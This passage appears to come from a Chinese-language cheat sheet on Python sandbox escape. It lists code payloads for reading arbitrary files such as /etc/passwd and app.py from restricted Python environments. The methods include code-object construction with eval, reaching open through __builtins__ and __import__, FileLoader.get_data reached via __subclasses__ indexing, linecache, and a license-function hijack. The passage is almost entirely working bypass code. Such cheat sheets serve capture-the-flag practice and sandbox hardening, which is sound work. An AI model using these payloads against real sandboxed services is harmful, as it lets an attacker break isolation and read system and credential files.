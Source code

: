 ```py
# code(argcount, posonlyargcount, kwonlyargcount, nlocals, stacksize, flags, codestring, constants, names, varnames, filename, name, qualname, firstlineno, linetable, exceptiontable, freevars=(), cellvars=(),/)

# function_type(codeobj, mydict, None, None, None)()
eval(codeobj)
```

最终可以成功读取 /etc/passwd

#### 迭代器

### 读写文件

#### file 类
```py
# Python2 
file('test.txt').read()
#注意：该函数只存在于Python2，Python3不存在
```
#### open 函数
```py
open('/etc/passwd').read()
__builtins__.open('/etc/passwd').read()
__import__("builtins").open('/etc/passwd').read()
```
#### codecs 模块
```py
import codecs
codecs.open('test.txt').read()
```
#### get_data 函数
FileLoader 类 
```py
# _frozen_importlib_external.FileLoader.get_data(0,<filename>)
"".__class__.__bases__[0].__subclasses__()[91].get_data(0,"app.py")
```
相比于获取 `__builtins__` 再使用 open 去进行读取,使用 get_data 的 payload 更短.

#### linecache 模块
getlines 函数
```py
>>> import linecache
>>> linecache.getlines('/etc/passwd')
>>> __import__("linecache").getlines('/etc/passwd')
```

getline 函数需要第二个参数指定行号
```py
__import__("linecache").getline('/etc/passwd',1)
```

#### license 函数
```py
__builtins__.__dict__["license"]._Printer__filenames=["/etc/passwd"]
a = __builtins__.help
a.__class__.__enter__ = __builtins__.__dict__["license"]
a.__class__.__exit__ = lambda self, *args: None
with (a as b):
    pass
```
